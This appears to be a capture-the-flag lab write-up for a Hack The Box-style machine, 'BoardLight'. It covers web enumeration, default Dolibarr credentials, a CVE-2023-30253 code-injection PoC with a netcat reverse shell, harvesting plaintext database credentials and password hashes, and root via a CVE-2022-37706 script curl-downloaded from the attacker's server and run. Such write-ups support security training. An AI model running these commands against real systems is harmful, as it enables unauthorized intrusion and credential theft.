## Testing

Start: 2026-10-16, 12:30
IP:
```IP
10.129.231.37
```
---
ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.231.37 -oA network/nmap_ports
```



SSH, HTTP

service

```
sudo nmap -p22,80 -Pn -n --min-rate=5000 -vv -sCV 10.129.231.37 -oA network/nmap_service
```



SSH: OpenSSH 8.2p1 Ubuntu 4 ubuntu 0.11

Web server: Apache http 2.4.41


HTTP 80

Browsing: http://10.129.231.37/



`index.php`. PHP backend. "cybersecurity consulting firm"

Bottom of the page:



Location: 123 Main Street, Anytown, UK

Phone: +01 1234567890

Email: info@board.htb

Domain: `board.htb`

Add IP - Domain to `/etc/hosts`:



http://board.htb/ is the same application

Technologies:



Fuzzing:

```
ffuf -u http://board.htb/FUZZ.php -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

Already known endpoints: contact, about, index, do

VHost fuzzing

```
ffuf -w /opt/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://10.129.231.37 -H "Host: FUZZ.board.htb" -fs 15949
```



`crm`

Add subdomain to `/etc/hosts`:



Browsing: http://crm.board.htb/


Dolibarr login page.
Version: `Dolibarr 17.0.0`

Browsing the fingerprinted technology surfaces a CVE and PoCs.

https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253


This CVE-2023-30253 allows PHP Code Injection, but need valid authentication
Back in login.

First try with admin:admin and redirected to admin panel, with error of Access denied.


Searching for default credentials on this technology see that `admin:admin` is a well known default credential. https://www.defaultcredentials.org/en/credentials/dolibarr-dolibarr

Using PHP code injection exploit with this credential.

Download Poc:

```
wget https://raw.githubusercontent.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/refs/heads/main/exploit.py
```

Allow execution

Setting up listener

```
nc -nlvp 9001
```

Run PoC script:

```
python3 exploit.py http://crm.board.htb admin admin 10.10.15.242 9001
```


On listener tab


Shell as `www-data` to target system `boardlight` with IP: 10.129.231.37

Webroot: `/var/www/html/crm.board.htb/htdocs/public/website/`

System user: `larissa` (`/home/larissa`)

Navigating arround system see is using `mysql` database. In `/vat/www/html/crm.board.htb/htdocs/install/mysql/tables` find user table `llx_user.sql`.

Inside `/var/www/html/crm.board.htb/htdocs/conf` list contents of `conf.php`, contains username and password for database account in plaintext.


Database name: `dolibarr`
Username: `dolibarrowner`
Password: `serverfun2$2023!!`

Connect to `dolibarr` database

```
mysql -u dolibarrowner dolibarr -p
```

```
select * from llx_user;
```



Output is tanggled but can distinguish 2 hashes and what could be a salt:

```
$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm
```

```
$2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96
```

```
yr6V3pXd9QEI
```

Saving only the 2 hashes on a file `crm.board.htb.hashes`

Cant identify them by prefix

Feeding hashcat
```
hashcat crm.board.htb.hashes
```



Hashcat suggest: 3200, 25600, 25800, 28400

No success

Trying database user password reuse for `larissa`  turns out valid.

```
ssh larissa@board.htb
```

Input password: `serverfun2$2023!!`



Connected as `larissa` to target system `boardlight` with IP: 10.129.231.37

```
cat user.txt
```

user.txt: `6af8dce3f2c70030c319fa2247f864fa`

Privilege escalation:

Enumerating sudo privileges

```
sudo -l
```

`Sorry, user larissa may not run sudo on localhost.`

Enumerating SUID binaries

```
find / -perm -4000 2>/dev/null
```



Cant find any exploitable in GTFObins

Searching binaries in browser find exploitation for: "`enlightenment_sys`":



CVE-2022-37706: https://github.com/KaoXx/CVE-2022-37706

Download sh script

```
wget https://raw.githubusercontent.com/KaoXx/CVE-2022-37706/refs/heads/main/exploit.sh
```

Serve it with python http server

```
python3 -m http.server
```

Download to target system: (changed directory to `/tmp`)

```
curl http://10.10.15.242:8000/exploit.sh -o exploit.sh
```

Allow execution

Execute

```
./exploit.sh
```

Context, proof:

```
whoami && ifconfig | grep inet
```


Shell as root in the target system `boardlight` with IP: 10.129.231.37

root.txt: `9dd15a4cd61372a31a14666a8ce4fc95`

End: 2026-10-16, 15:00

---
### Post-testing
#### Timeframe
Start: 2026-10-16, 12:30

End: 2026-10-16, 15:00

Total time: 2h30min
#### Techniques
- Default credentials (Dolibarr)
- Authenticated PHP code injection affecting `Dolibarr 17.0.0` (CVE-2023-30253)
- Reading web server configuration to find database account credential
- `enlightenment_sys` SUID privilege escalation (CVE-2022-37706)
#### Sources
- Dolibarr default credentials: https://www.defaultcredentials.org/en/credentials/dolibarr-dolibarr
- `Dolibarr 17.0.0` CVE-2023-30253: https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
- `enlightenment_sys` CVE-2022-37706: https://github.com/KaoXx/CVE-2022-37706
